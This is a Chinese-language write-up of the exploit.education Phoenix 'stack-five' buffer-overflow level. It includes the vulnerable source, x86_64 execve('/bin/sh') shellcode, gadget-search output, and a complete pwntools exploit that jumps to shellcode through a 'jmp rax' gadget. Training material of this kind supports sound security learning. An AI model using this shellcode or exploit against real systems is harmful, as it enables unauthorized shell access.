







# STACK FIVE

As opposed to executing an existing function in the binary, this time we’ll be introducing the concept of “shell code”, and being able to execute our own code.

**Hints**

- Don’t feel like you have to write your own shellcode just yet – there’s plenty on the internet.
- If you wish to debug your shellcode, be sure to make use of the [breakpoint](https://en.wikipedia.org/wiki/Breakpoint) instruction. On i386 / x86_64, that’s 0xcc, and will cause a SIGTRAP.
- Make sure you remove those breakpoints after you’re done.

```c
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

官方原话

这个题目的要求是：Can you execve("/bin/sh", ...) ?

要我们执行 execve("/bin/sh", ...) ，也就是要我们拿到一个 shell

这个题目给的 binary 开启了栈可执行



可以看到 NX disable

说明我们可以把可以把代码放到栈上执行，emmm，怎么说呢，算了，直接解题吧



这个就很简单，就一个 `gets` 函数，读进一个有界的  buffer `local_88` 里面

看 `local_88`  距离栈底的距离

 

可以看到 `rdi` 存的是  `[RBP + -0x80]`

说明我们可以从 距离 `rbp`  0x80 的地方往 rbp 这个方向写入，写入 0x80 时刚好到达 rbp ，覆盖 rbp 后到达 返回地址

所以填充的长度是 ：`0x80 + 0x8`

好了我们的目标是执行 `execve("/bin/sh", ...)`，怎么整？

这里就涉及到 `shellcode` 这个东西了

快速得到 shellcode

via：http://shell-storm.org/shellcode/

可以直接找到你需要的系统的 shellcode，我们现在这道题是 Linux x64



看到很多的 shellcode

找一下 执行 /bin/sh 的

http://shell-storm.org/shellcode/files/shellcode-806.php

这个可以，

```c
/*
 * Execute /bin/sh - 27 bytes
 * Dad` <3 baboon
;rdi            0x4005c4 0x4005c4
;rsi            0x7fffffffdf40   0x7fffffffdf40
;rdx            0x0      0x0
;gdb$ x/s $rdi
;0x4005c4:        "/bin/sh"
;gdb$ x/s $rsi
;0x7fffffffdf40:  "\304\005@"
;gdb$ x/32xb $rsi
;0x7fffffffdf40: 0xc4    0x05    0x40    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf48: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf50: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
;0x7fffffffdf58: 0x55    0xb4    0xa5    0xf7    0xff    0x7f    0x00    0x00
;
;=> 0x7ffff7aeff20 <execve>:     mov    eax,0x3b
;   0x7ffff7aeff25 <execve+5>:   syscall 
;

main:
    ;mov rbx, 0x68732f6e69622f2f
    ;mov rbx, 0x68732f6e69622fff
    ;shr rbx, 0x8
    ;mov rax, 0xdeadbeefcafe1dea
    ;mov rbx, 0xdeadbeefcafe1dea
    ;mov rcx, 0xdeadbeefcafe1dea
    ;mov rdx, 0xdeadbeefcafe1dea
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    ;mov rdi, rsp
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    ;mov rsi, rsp
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
 */

#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}
```

我们只需要获得 code 数组里面的东西：

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

这个就是传说中的 `shellcode`，其实就是一段机器码


```asm
xor eax, eax
mov rbx, 0xFF978CD091969DD1
neg rbx
push rbx
;mov rdi, rsp
push rsp
pop rdi
cdq
push rdx
push rdi
;mov rsi, rsp
push rsp
pop rsi
mov al, 0x3b
syscall
```

知道系统调用的人一眼就看的出来，其实就是执行了 `0x3b` 号系统调用


系统调用 via：http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

shellcode 的编写我在 mmap 的时候提到过：https://github.com/zero-MK/note/blob/master/mmap/mmap.md

Shellcode奇技淫巧汇总：https://www.jianshu.com/p/a706ddc1d6bb


看一下 `0x3b` 号系统调用是个什么东西，`0x3b = 59`

```bash
cat /usr/include/asm/unistd_64.h | less
```



0x3b 也就是 59 号系统调用是 execve

再看他的参数，不知道还记不记得，x64 下面函数调用时前 6 个参数是放在寄存器的（`rdi， rsi， rcx，rdx，r8，r9`）


差不多就是这样

现在填充长度知道了，`shellcode` 有了

但是有一件事我们要知道，`shellcode` 是放在栈上的，我们现在怎么跳到栈上去执行我们放进去的 `shellcode`

这个东西卡了我很久，因为没有 合适的 `gadget`，像是 `pop reg; ret` 然后` jmp reg` 或者 `call reg` 的

```bash
# root @ 285437bb88fa in ~/exploit [17:08:25]
$ ROPgadget --binary ./stack-five
Gadgets information
============================================================
0x000000000040060f : add bl, dh ; ret
0x000000000040060d : add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040060b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004005c8 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x000000000040060c : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000004005c9 : add byte ptr [rax], al ; add cl, cl ; ret
0x00000000004005ca : add byte ptr [rax], al ; leave ; ret
0x00000000004003d1 : add byte ptr [rax], al ; pop rax ; ret
0x0000000000400486 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040060e : add byte ptr [rax], al ; ret
0x00000000004005ee : add byte ptr [rax], al ; sub rbx, 8 ; call rax
0x0000000000400485 : add byte ptr [rax], r8b ; pop rbp ; ret
0x00000000004005ed : add byte ptr [rax], r8b ; sub rbx, 8 ; call rax
0x000000000040054a : add byte ptr [rcx], al ; pop r12 ; pop rbp ; ret
0x00000000004005cb : add cl, cl ; ret
0x000000000040054b : add dword ptr [rcx + 0x5c], eax ; pop rbp ; ret
0x0000000000400546 : add eax, 0x200374 ; add dword ptr [rcx + 0x5c], eax ; pop rbp ; ret
0x0000000000400600 : add esp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400548 : add esp, dword ptr [rax] ; add byte ptr [rcx], al ; pop r12 ; pop rbp ; ret
0x00000000004005ff : add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400549 : and byte ptr [rax], al ; add dword ptr [rcx + 0x5c], eax ; pop rbp ; ret
0x00000000004006db : call qword ptr [rdi]
0x00000000004005f4 : call rax
0x00000000004005fe : int1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400479 : je 0x400490 ; pop rbp ; mov edi, 0x6008b0 ; jmp rax
0x00000000004004bb : je 0x4004d0 ; pop rbp ; mov edi, 0x6008b0 ; jmp rax
0x0000000000400547 : je 0x400554 ; and byte ptr [rax], al ; add dword ptr [rcx + 0x5c], eax ; pop rbp ; ret
0x0000000000400481 : jmp rax
0x00000000004005fd : jne 0x4005f8 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x00000000004005a2 : leave ; ret
0x00000000004005c7 : mov eax, 0 ; leave ; ret
0x0000000000400614 : mov eax, 0x58fffffe ; ret
0x000000000040047c : mov edi, 0x6008b0 ; jmp rax
0x00000000004005a1 : nop ; leave ; ret
0x0000000000400483 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x0000000000400608 : nop dword ptr [rax + rax] ; ret
0x00000000004005eb : nop dword ptr [rax + rax] ; sub rbx, 8 ; call rax
0x00000000004004c5 : nop dword ptr [rax] ; pop rbp ; ret
0x000000000040047e : or byte ptr [rax], ah ; jmp rax
0x0000000000400602 : or byte ptr [rbx + 0x5d], bl ; ret
0x000000000040054c : pop r12 ; pop rbp ; ret
0x00000000004003d3 : pop rax ; ret
0x000000000040047b : pop rbp ; mov edi, 0x6008b0 ; jmp rax
0x0000000000400488 : pop rbp ; ret
0x0000000000400603 : pop rbx ; pop rbp ; ret
0x000000000040054d : pop rsp ; pop rbp ; ret
0x00000000004005fc : push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x00000000004003d4 : ret
0x00000000004005f1 : sub ebx, 8 ; call rax
0x00000000004005f0 : sub rbx, 8 ; call rax
0x000000000040060a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret

Unique gadgets found: 51
```

筛选 gadget

```bash
# root @ 285437bb88fa in ~/exploit [17:16:16]
$ ROPgadget --binary ./stack-five --only "jmp"
Gadgets information
============================================================
0x0000000000400481 : jmp rax

Unique gadgets found: 1

# root @ 285437bb88fa in ~/exploit [17:21:16]
$ ROPgadget --binary ./stack-five --only "call"
Gadgets information
============================================================
0x00000000004006db : call qword ptr [rdi]
0x00000000004005f4 : call rax

Unique gadgets found: 2
```

发现只有 `jmp rax` 或者 `call rax`

但是 没有 `pop rax; ret`

我怎么能让 `rax` 得到 `shellcode` 的地址呢

我仔细看了 `main` 和 `start_level` 的汇编



刚开始

我看到了` gets` 的参数是 `local_88`

```asm
00400595 48 8d 45 80     LEA        RAX=>local_88,[RBP + -0x80]
00400599 48 89 c7        MOV        RDI,RAX
0040059c e8 4f fe        CALL       gets                                             
         ff ff
```

这里有把  `local_88` 的地址赋值给 `rax` 的

我只要把 shellcode 放在  `local_88`  上就可以了，我不知道是不是脑子抽了，想着，没有 `ret` 啊，我怎么跳到 `jmp rax` 或者 `call rax`  呢，然后就放弃了

开始试用 `NOP + shellcode + NOP + addr` 填充，然后试着 把 `addr` 覆盖到返回地址期望能踩到前面的 `NOP` 然后顺着 `NOP` 执行 `shellcode`  但是失败了（ASLR）（这里的 NOP 是汇编指令 机器码：0x90）

然后我看了很久才想起来，`rax` 一般是在函数结束的时候存返回值的，`start_level` 没有返回值，把函数汇编可以一遍才发现

```asm
0040058d 55              PUSH       RBP
0040058e 48 89 e5        MOV        RBP,RSP
00400591 48 83 c4 80     ADD        RSP,-0x80
00400595 48 8d 45 80     LEA        RAX=>local_88,[RBP + -0x80]
00400599 48 89 c7        MOV        RDI,RAX
         ff ff
004005a1 90              NOP
004005a2 c9              LEAVE
004005a3 c3              RET
```

`rax` 一直到函数返回都没有改变，我只需要把 `shellcode` 塞到 `local_88` 中，然后在 `shellcode` 的后面填充足够的字符再把 `jmp rax` 的地址覆盖到 返回地址上，就完事了

payload 公式：`shellcode + ("A" * (0x88 - len(shellcode))) + jmp_rax_addr`

完整的 exp ：

```python
from pwn import *

p = process("./stack-five")
jmp_rax_addr = 0x0000000000400481
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
padding_size = 0x88
exp = shellcode
exp += (0x88 - len(shellcode)) * "A"
exp += p64(jmp_rax_addr)

print(exp)

p.sendline(exp)
p.interactive()
```



pwn！

gdb 调试我就不上了，后面有时间再写吧